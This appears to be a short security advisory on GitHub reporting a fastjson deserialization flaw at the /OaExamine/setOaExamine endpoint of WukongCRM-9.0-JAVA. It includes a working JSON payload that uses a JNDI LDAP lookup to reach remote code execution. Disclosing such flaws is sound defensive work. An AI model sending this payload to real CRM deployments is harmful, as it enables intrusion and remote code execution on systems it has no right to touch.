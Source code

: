 # [WukongCRM-9.0-JAVA](https://github.com/WuKongOpenSource/WukongCRM-9.0-JAVA)

## fastjson deserialization vulnerability

Similar to CVE-2024-23052，The /OaExamine/setOaExamine path of WukongCRM-9.0-JAVA also has a fastjson deserialization vulnerability.

Class：OaExamineController

Path：/OaExamine/setOaExamine

Directly deserializing the request body may lead to a fastjson deserialization vulnerability:

![image-20250826143725274](images\image-20250826143725274.png)

![image-20250826143717496](images\image-20250826143717496.png)

By default, a deserialization denial of service attack is possible:

![image-20250826143809607](images\image-20250826143809607.png)

With specific dependencies and autoTypeSupport enabled, deserialization can be used to achieve RCE：

```json
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://localhost:1389/Exploit","Object":"a"}
```

![image-20250826153102932](images\image-20250826153102932.png)


![image-20250826153128766](images\image-20250826153128766.png)
